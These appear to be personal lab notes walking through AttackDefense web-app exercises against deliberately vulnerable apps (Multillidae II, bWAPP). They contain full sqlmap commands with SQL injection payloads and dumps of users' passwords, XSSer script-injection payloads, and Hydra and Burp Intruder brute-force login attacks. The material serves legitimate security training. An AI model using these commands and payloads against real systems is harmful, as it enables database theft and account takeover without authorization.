# 🔬Web App Attacks

## Passive Crawling - Burp Suite

> 🔬 [Passive Crawling with Burp Suite](https://attackdefense.com/challengedetails?cid=1891)
>
> - Target IP: `192.230.181.3`
> - Multillidae II

```bash
ip -br -c a
	eth1@if203734  UP  192.230.181.2/24

nmap -sS -sV 192.230.181.3
```

- Open the browser and navigate to
  - `http://192.230.181.3/`
  - Activate `FoxyProxy` Plugin
- Start `BurpSuite` (set *User options/Display/Look* to *Darcula* and restart BurpSuite)
  - Intercept the home page request and **turn off the intercept**
- Check the **`HTTP history`** tab
- Browse the Multillidae web app and Burp will crawl the visited pages





- Check the **`Target`** tab for a **Site map**
  - Add site to the **Scope**


------

## SQL Injection - [SQLMap](https://sqlmap.org/)

> 🔬 [SQL Injection with SQLMap](https://attackdefense.com/challengedetails?cid=2129)
>
> - Target IP: `192.42.186.3`
> - bWAPP

```bash
ip -br -c a
	eth1@if178967  UP  192.42.186.2/24

nmap -sS -sV 192.42.186.3
```

- Open the browser and navigate to `http://192.42.186.3/`, login with `bee`:`bug`, select `SQL Injection (GET/Search)` and click Hack button
  - Input a string and search
  - `http://192.42.186.3/sqli_1.php?title=hacking&action=search`

- Activate `FoxyProxy` Plugin
- Start `BurpSuite` in Interception mode
  - Refresh the page, intercept the request and copy the cookie
  - Cookie: `PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0`



- Run `sqlmap`, defining `title` as the test parameter

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title
```



```bash
---
Parameter: title (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: title=hacking' AND (SELECT 1819 FROM(SELECT COUNT(*),CONCAT(0x716a767171,(SELECT (ELT(1819=1819,1))),0x7171707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bLrY'='bLrY&action=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=hacking' AND (SELECT 1664 FROM (SELECT(SLEEP(5)))MSwT) AND 'jFDG'='jFDG&action=search

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: title=hacking' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716a767171,0x7379784e74504d4e76744b6e4c524b4e516a4f4f7878676a51734e6d4c744d547450424844474f76,0x7171707071),NULL,NULL-- -&action=search
---
```

- In BurpSuite, send the request to Repeater
  - Copy the first payload from SQLMap and paste it as part of the `title` parameter

```bash
hacking' AND (SELECT 1819 FROM(SELECT COUNT(*),CONCAT(0x716a767171,(SELECT (ELT(1819=1819,1))),0x7171707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bLrY'='bLrY&action=search
```



- Use `sqlmap` to get a list of tables for the `bWAPP` database

```bash
# List databases
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title --dbs
```



```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP --tables
```


- Use `sqlmap` to get a list of columns in the `users` table of the `bWAPP` database

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users --columns
```



- Dump `password` and `email` for **admin** from the `users` table

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump
```



- Turn off Intercept mode in BurpSuite, navigate to `http://192.42.186.3/sqli_6.php` and turn back on Intercept mode.
  - Search `example` string from the page and intercept it
  - **Copy to file** the request and name the filerequest`



- Use `sqlmap` with this request file

```bash
sqlmap -r request -p title
```



```bash
---
Parameter: title (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: title=example' AND (SELECT 9391 FROM(SELECT COUNT(*),CONCAT(0x716a7a7071,(SELECT (ELT(9391=9391,1))),0x7162717871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'Yvps'='Yvps&action=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=example' AND (SELECT 6244 FROM (SELECT(SLEEP(5)))dWNC) AND 'Hfwn'='Hfwn&action=search

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: title=example' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a7a7071,0x7463445853774f49666461525a4b446d4a624a706a414976706b56495977444675766767546d6347,0x7162717871),NULL-- -&action=search
---
```

- In BurpSuite, send the request to Repeater
  - Try the proposed payloads from SQLMap



- Change the request to pass `version()` function to the database



------

## XSS Attack - [XSSer](https://github.com/epsylon/xsser)

> 🔬 [XSS Attack with XSSer](https://attackdefense.com/challengedetails?cid=1889)
>
> - Target IP: `192.131.167.3`
> - Multillidae II

```bash
ip -br -c a
	eth1@if178967  UP  192.131.167.2/24

nmap -sS -sV 192.131.167.3
```

```bash
# If Firefox does not start, check the service and kill it
ps -e | grep firefox
	<PID>
kill <PID>
```

- Navigate to the [XSS Reflected](https://portswigger.net/web-security/cross-site-scripting/reflected) - DNS Lookup webpage:
  - `http://192.131.167.3/index.php?page=dns-lookup.php`
  - Enter any text and `Lookup DNS`
  - The value is **reflected back** on the web page



- Activate `FoxyProxy` Plugin
- Start `BurpSuite`
- Enter any text and `Lookup DNS` and intercept the request in `BurpSuite`
  - Copy the payload and input `XSS` in the target_host



- Use **`xsser`** to check the vulnerability

```bash
xsser --url 'http://192.131.167.3/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
```



```bash
xsser --url 'http://192.131.167.3/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
```


- Use a custom XSS payload

```bash
xsser --url 'http://192.131.167.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```



- Copy the `Final Attack` payload and use it in the browser or BurpSuite to trigger the XSS attack
  - `http://192.131.167.3/index.php?page=dns-lookup.php&target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS`




- Perform an XSS Poll Question attack over `GET` request
  - `http://192.131.167.3/index.php?page=user-poll.php`
  - copy the `URL`, replace the `nmap` value with **`XSS`** and pass it to XSSer
    - `http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=nmap&initials=2&user-poll-php-submit-button=Submit+Vote`

```bash
xsser --url "http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=2&user-poll-php-submit-button=Submit+Vote"
```



```bash
xsser --url "http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=2&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"
```



- Open the `Final Attack` link in the browser
  - `http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&initials=2&user-poll-php-submit-button=Submit+Vote`



------

## Authenticated XSS Attack - XSSer

> 🔬 [Authenticated XSS Attack with XSSer](https://attackdefense.com/challengedetails?cid=1892)
>
> - Target IP: `192.56.179.3`
> - bWAPP

```bash
ip -br -c a
	eth1@if178967  UP  192.56.179.2/24

nmap -sS -sV 192.56.179.3
```

- Login with `bug`:`bee`, select the `HTML Injection - Reflected (GET)` bug and input any value. Copy the URL
  - `http://192.56.179.3/htmli_get.php?firstname=hi&lastname=hi&form=submit`

- Activate `FoxyProxy` Plugin, start `BurpSuite`, refresh the webpage and copy the `Cookie` from the Proxy intercepted request
  - `PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0`

- Run the **`xsser`** tool by
  - replacing the `firstname` value string with `XSS`
  - feeding the Cookie
  - stop BurpSuite interceptor

```bash
xsser --url "http://192.56.179.3/htmli_get.php?firstname=XSS&lastname=hi&form=submit" --cookie="PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0"
```



```bash
xsser --url "http://192.56.179.3/htmli_get.php?firstname=XSS&lastname=hi&form=submit" --cookie="PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0" --Fp "<script>alert(1)</script>"
```



------

## Attacking HTTP Login Form - Hydra

> 🔬 [Attacking HTTP Login Form with Hydra](https://attackdefense.com/challengedetails?cid=1895)
>
> - Target IP: `192.210.201.3`
> - bWAPP

```bash
ip -br -c a
	eth1@if178967  UP  192.210.201.2/24

nmap -sS -sV 192.210.201.3
```

- Open the `http://192.210.201.3/login.php` page, view source code and check the parameters passed in the login form.



- Prepare a usernames and a passwords list

```bash
echo -e "admin\nbee\nuser1\nuser2" > users
cat /root/Desktop/wordlists/100-common-passwords.txt > pws
echo "bug" >> pws

```

- Use **`hydra`** to retrieve the credentials

```bash
hydra -L users -P pws 192.210.201.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```



------

## Attacking Basic Auth - BurpSuite

> 🔬 [Attacking Basic Auth with Burp Suite](https://attackdefense.com/challengedetails?cid=1896)
>
> - Target IP: `192.190.241.3`
> - bWAPP

```bash
ip -br -c a
	eth1@if178967  UP  192.190.241.2/24

nmap -sS -sV 192.190.241.3
```

- Open **Firefox**, activate `FoxyProxy` Plugin, start `BurpSuite`, open `http://192.190.241.3/basic` and intercepted the request. Forward the request, input some data and intercept the request.
  - `/basic` directory uses **Basic Auth**
  - send the request to Intruder


- Navigate to **Intruder - Positions** tab

  - Decode the `base64` string, it will become `test:test`, like the input data from the login form



- Replace the credentials with a parameter to be substituted like `§credentials§`



- In the **Payload Options**, Load the `/root/Desktop/wordlists/100-common-passwords.txt:` list
  - In the **Payload Processing** - `Add prefix` rule, and input `admin:` to append it to all the passwords
    - Add a `Encode - Base64-encode` rule too
  - Start the attack
- Check the entry result with status code `301`
  - **Send to Decoder** the `Authorization: Basic` value
  - Check the BurpSuite Decoder tab


- Decoded as base64 string is `admin:cookie1`


- Turn off BurpSuite interceptor, open the web page and insert the found credentials

> 🚩 The flag is `d25db4ce54b60b49dfd7b32c52ed8d26`



------

## Attacking HTTP Login Form - ZAProxy

> 🔬 [Attacking HTTP Login Form with ZAProxy](https://attackdefense.com/challengedetails?cid=1897)
>
> - Target IP: `192.145.79.3`
> - bWAPP

```bash
ip -br -c a
	eth1@if178967  UP  192.145.79.2/24

nmap -sS -sV 192.145.79.3
```

- Open the **`owasp-zap`** tool, Manual Explore, input the URL and launch browser
  - `http://192.145.79.3`
- Attempt login with bad credentials. The website will be added to the sitemap inside `ZAP`



- Right click on the `POST` request and select **Fuzz...**



- Select the input username, click the Add button, Add again and input the payloads for username. Confirm with OK



- Select the input password and do the same thing with a list of possible password



- **Start Fuzzer** to start the attack and check the results and the `302` response





------

